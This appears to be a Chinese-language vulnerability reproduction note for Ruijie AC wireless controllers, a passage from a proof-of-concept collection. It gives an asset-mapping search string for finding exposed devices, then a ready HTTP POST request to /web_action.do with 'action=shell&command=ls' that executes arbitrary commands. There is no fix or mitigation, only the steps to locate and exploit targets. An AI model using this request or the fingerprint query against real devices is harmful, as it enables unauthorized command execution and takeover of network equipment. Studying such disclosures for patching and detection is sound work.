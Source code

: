 # 锐捷AC无线控制器存在命令执行漏洞

**一、漏洞简介**  
<font style="color:rgb(34, 34, 34);">锐捷AC无线控制器存在命令执行漏洞，攻击者可通过该漏洞执行任意命令</font>  
**二、影响版本**

锐捷AC无线控制器

**三、资产测绘**

```plain
web.body="简网络，玩智分，无线移动体验 "
```

●登录![1711997786378-edcef547-10cd-420c-832e-a770238eb3f2.png](./img/SkGRDmmGc2Tiryjr/1711997786378-edcef547-10cd-420c-832e-a770238eb3f2-083457.png)

![1711997819097-a4244fdc-1bef-41ee-b4ff-ed704db1c612.png](./img/SkGRDmmGc2Tiryjr/1711997819097-a4244fdc-1bef-41ee-b4ff-ed704db1c612-391171.png)



![1711997764050-f8b07f3f-7a50-4784-b518-dde60cd3f693.png](./img/SkGRDmmGc2Tiryjr/1711997764050-f8b07f3f-7a50-4784-b518-dde60cd3f693-905629.png)

**四、漏洞复现**

```plain
POST /web_action.do HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

action=shell&command=ls
```

![1711997844450-ea706a57-d350-4ae3-9d94-65913aa37d36.png](./img/SkGRDmmGc2Tiryjr/1711997844450-ea706a57-d350-4ae3-9d94-65913aa37d36-776431.png)



> 更新: 2024-06-24 11:42:25  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fivwdfbv0bacamon>